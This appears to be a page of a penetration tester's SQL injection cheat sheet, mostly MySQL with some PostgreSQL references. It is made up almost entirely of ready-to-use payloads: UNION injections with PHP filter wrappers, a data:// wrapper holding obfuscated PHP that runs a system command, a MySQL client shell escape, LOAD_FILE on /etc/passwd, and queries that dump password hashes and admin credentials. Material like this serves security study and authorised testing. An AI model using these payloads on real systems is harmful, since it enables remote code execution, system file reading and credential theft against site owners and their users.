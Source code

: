     PHP Wrappers: 
        Read File:  php://filter/convert.base64-encode/resource=.
        RCE:  ’ /*!50000union*/ select 1,2,3,4,5,’../index’,7,8,’php://filter/convert.base64-encode/resource=.’ -- -
		Or:  data://text/plain,<?php $a="sy";$b="stem";$c=$a.$b; $c("uname -a");?>
    UDF RCE:  https://medium.com/r3d-buck3t/privilege-escalation-with-mysql-user-defined-functions-996ef7d5ceaf (if you can write to the target system)
    RCE via MySQL Client:  \! sh [-c id]

### Useful MySQL Queries:

	SELECT...
	
	concat(host, char(58), user, char(58), password) FROM mysql.user
	user()
	system_user()
	group_concat(privilege_type) from information_schema.user_privileges
	version()
	database()
	@@hostname
	@@datadir
	schema()
	LOAD_FILE('/etc/passwd')
	schema_name FROM information_schema.schemata LIMIT 0,1		#First Limit is offset; second is number of records to pull/display
	table_name from information_schema.tables
	user FROM mysql.user LIMIT 0,1
	PHP Wrappers: 
		Read File:  php://filter/convert.base64-encode/resource=.
		RCE:  data://text/plain,<?php $a="sy";$b="stem";$c=$a.$b; $c("uname -a");?>

	//**Databases, Tables, and Columns:   concat(table_schema, char(58), table_name, char(58), column_name) FROM information_schema.columns WHERE table_schema != 'mysql' AND table_schema != 'information_schema'
	//Databases: schema_name FROM information_schema.schemata
		OR:  group_concat(schema_name) from information_schema.schemata
	//Tables: table_name FROM information_schema.tables WHERE table_schema != 'mysql' AND table_schema != 'information_schema'
		//Or: TABLE_NAME FROM information_schema.TABLES WHERE table_schema="database1"
	//Columns: column_name FROM information_schema.COLUMNS WHERE TABLE_NAME="table1"
	//Data: column1 FROM table1 LIMIT %s,1
		ex. concat(login, char(58), password) FROM atutor.AT_admins
		//From another database: column1 FROM database2.table1
	//Users: user FROM mysql.user
	//Password Hashes (mysql): concat(host, char(58), user, char(58), password) FROM mysql.user


    
        
## PostgreSQL:

    https://pentestmonkey.net/cheat-sheet/sql-injection/postgres-sql-injection-cheat-sheet
    https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/SQL%20Injection/PostgreSQL%20Injection.md
    https://book.hacktricks.xyz/pentesting-web/sql-injection/postgresql-injection
    Enabling Database Logging:
        Windows:
            C:\Program Files (x86)\ManageEngine\AppManager12\working\pgsql\data\amdb\postgresql.conf: log_statement = 'all' - then restart application service
            Failed queries log in:  ex. C:\Program Files (x86)\ManageEngine\AppManager12\working\pgsql\data\amdb\pgsql_log\
            Test queries directly from admin console - PGAdmin
                Or from CMD:  psql.exe -U postgres -p 15432
        Unix:
            /etc/postgresql/10/main/postgresql.conf: Uncomment log_destination, logging_collector, log_directory, log_filename, log_statement; systemctl restart postgresql; tail -f /var/log/postgresql/...